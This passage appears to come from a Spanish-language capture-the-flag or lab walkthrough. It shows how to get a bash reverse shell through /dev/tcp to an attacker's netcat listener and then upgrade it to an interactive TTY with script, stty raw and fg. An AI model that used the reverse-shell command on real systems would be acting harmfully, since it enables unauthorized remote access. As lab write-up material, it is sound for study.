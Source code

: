 
Teniendo una consola de comandos, ejecutamos el comando que nos dará la `reverse shell`
```
bash -i >& /dev/tcp/192.168.1.31/1234 0>&1
```

![](img/Pasted%20image%2020241225222825.png#center)


Si vamos a nuestro KALI, en la terminal donde estábamos a la escucha, deberemos a ver recibido la `reverse shell`

![](img/Pasted%20image%2020241225223002.png#center)


## TTY

Hacemos el tratamiento de la TTY para obtener una consola de comandos funcional
```
script /dev/null -c bash
```

![](img/Pasted%20image%2020241225223110.png#center)

Presionamos **CTRL+Z** para suspender la shell
```
www-data@host_/$ ^Z
zsh: suspended nc -nlvp 4444
```


 Ahora resetearemos la configuración de la shell que dejamos en segundo plano indicando **reset** y **xterm**
 ```
~$> stty raw -echo; fg

[1]  + continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```
